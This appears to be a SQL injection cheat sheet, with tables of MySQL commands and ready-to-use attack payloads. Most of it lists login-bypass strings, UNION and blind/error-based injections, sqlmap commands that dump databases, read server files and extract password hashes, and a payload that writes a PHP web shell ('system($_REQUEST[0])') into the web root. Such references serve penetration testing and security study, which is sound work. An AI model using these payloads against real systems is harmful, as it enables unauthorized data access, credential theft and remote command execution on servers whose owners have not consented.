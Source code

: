 ### **INTRODUCTION**

SQL injection is a vulnerability that occurs when an attacker inserts or "injects" malicious SQL code into a database query. This is typically done through user input areas like forms or URLs that are not properly secured. By manipulating the SQL statements, the attacker can gain unauthorized access to the database, allowing them to view, modify, or delete data. This type of attack exploits inadequate input validation and can lead to significant data breaches.

```mermaid
sequenceDiagram
    participant A as Attacker
    participant B as Web Application
    participant C as Database

    A->>B: 1. Sends SQL Injection Payload
    Note over B,C: The web app fails to sanitize input
    B->>C: 2. Constructs and sends SQL query with payload
    C-->>B: 3. Executes malicious SQL query
    Note over C,B: Database processes the injection
    C-->>B: 4. Returns query result
    B-->>A: 5. Sends response with data to Attacker
```

### **GENERAL MYSQL COMMANDS**

These commands enable interactions with a MySQL database, including connection setup, navigation, and basic data operations.

| COMMAND | DESCRIPTION |
| --- | --- |
| `mysql -u root -h [TARGET_IP_ADDRESS] -P 3306 -p` | Connects to a MySQL database as the `root` user at a specified host and port. |
| `SHOW DATABASES;` | Lists all databases on the MySQL server for database selection. |
| `USE users;` | Selects the 'users' database for current operations. |
| `SHOW TABLES;` | Displays tables in the active database to outline the data structure. |
| `DESCRIBE logins;` | Shows structure and properties of the 'logins' table, including column data types. |

### **TABLE AND DATA MANIPULATION COMMANDS**

This section focuses on the creation, modification, and population of database tables.

| COMMAND | DESCRIPTION |
| --- | --- |
| `CREATE TABLE logins (id INT, ...);` | Creates a 'logins' table with defined columns and data types. |
| `INSERT INTO table_name VALUES (value_1, ...);` | Adds a new row with values in the defined order to a table. |
| `INSERT INTO table_name (column2, ...) VALUES (column2_value, ...);` | Inserts data into specific columns of a table. |
| `UPDATE table_name SET column1=newvalue1, ... WHERE condition;` | Updates records in a table based on a given condition. |

### **SQL INJECTION TECHNIQUES AND PAYLOADS**

A clear and concise overview of SQL injection methods from simple attacks to complex exploitations using tools like sqlmap.

| TECHNIQUE CATEGORY | COMMAND / PAYLOAD | DESCRIPTION |
| --- | --- | --- |
| Basic Union Attack | `' UNION SELECT 1,2,3,4 -- -` | Demonstrates a simple SQL injection with a UNION SELECT. |
| Write File | `cn' union select 1,'file written successfully!',3,4,5 into outfile '/var/www/html/proof.txt'-- -` | Writes data to a file on the server, showing file system access. |
| PHP Web Shell | `cn' union select "",'<?php system($_REQUEST[0]); ?>', "", "", "" into outfile '/var/www/html/shell.php'-- -` | Creates a web shell for command execution via PHP code. |
| sqlmap Data Dump | `sqlmap -r request.txt --batch --dump` | Automates SQL injection to dump database contents with sqlmap. |
| Targeted sqlmap Scan | `sqlmap -u TARGET -p PARAM --data=POSTDATA --cookie=COOKIE --level=3 --current-user --current-db --passwords --file-read="/var/www/blah.php"` | Targets specific details with sqlmap for sensitive data retrieval. |
| Form Injection Test | `sqlmap -o -u "http://[DOMAIN-NAME]/form/" –forms` | Tests form parameters for SQL injection vulnerabilities using sqlmap. |
| Database & Table Data Dump | `sqlmap -o -u "http://[DOMAIN-NAME]/vuln-form" --forms -D database-name -T users –dump` | Extracts and cracks hashes from specified database tables. |
| Session Flush | `sqlmap --flush session` | Resets sqlmap's session data to clear the testing environment. |
| Boolean Exploitation | `sqlmap -p user --technique=B` | Uses boolean techniques for SQL injection exploitation. |
| Crawl and Scan | `sqlmap -u http://[DOMAIN-NAME] --forms --batch --crawl=10 --cookie=jsessionid=54321 --level=5 --risk=3` | Performs a comprehensive crawl and test for SQL injection on a website. |

### **SQL INJECTION FOR BYPASSING LOGIN FORMS**

Different SQL injection payloads designed to manipulate or bypass login page.

| Technique | Example Payload | DESCRIPTION |
| --- | --- | --- |
| Basic Authentication Bypass | `' OR '1'='1` | Bypasses authentication by always returning true. |
| Extended Rights | `' OR '1'='1'--` | Ends the query prematurely to succeed the authentication check. |
| Admin Access | `' OR '1'='1' AND userType='admin` | Attempts to escalate privileges by setting userType to 'admin'. |
| Time-Based Blind SQLi | `admin' AND (SELECT * FROM Users WHERE username='admin' AND SLEEP(10))--` | Infers valid usernames by delaying the response when true. |
| Union-Based Credential Extraction | `' UNION SELECT username, password FROM users--` | Extracts user credentials directly from the database. |
| Error-Based SQLi | `' OR 1=1; RAISERROR ('Login Error', 10, 1);--` | Disrupts normal error handling to disclose information. |
| Commenting Out Remaining SQL | `' OR '1'='1' /*` | Neutralizes the rest of the SQL command for effective manipulation. |
| Complex Payload with Encoding | `' OR ASCII(LOWER(SUBSTRING((SELECT TOP 1 name FROM sysobjects WHERE xtype='U'), 1, 1))) > 116 --` | Derives schema details through boolean responses or error messages. |

### **DATA RETRIEVAL AND OUTPUT FORMATTING**

Methods for optimizing data retrieval and presentation for clearer analysis and reporting.

| COMMAND | DESCRIPTION |
| --- | --- |
| `SELECT * FROM table_name WHERE condition;` | Displays rows matching a specific condition, showing all columns. |
| `SELECT column1, column2 FROM table_name;` | Displays only selected columns, streamlining the output. |
| `SELECT * FROM logins ORDER BY column_1 DESC;` | Orders 'logins' table data by 'column_1' in descending order. |
| `SELECT * FROM logins LIMIT 2 OFFSET 1;` | Shows a subset of records, skipping the first and displaying the next two. |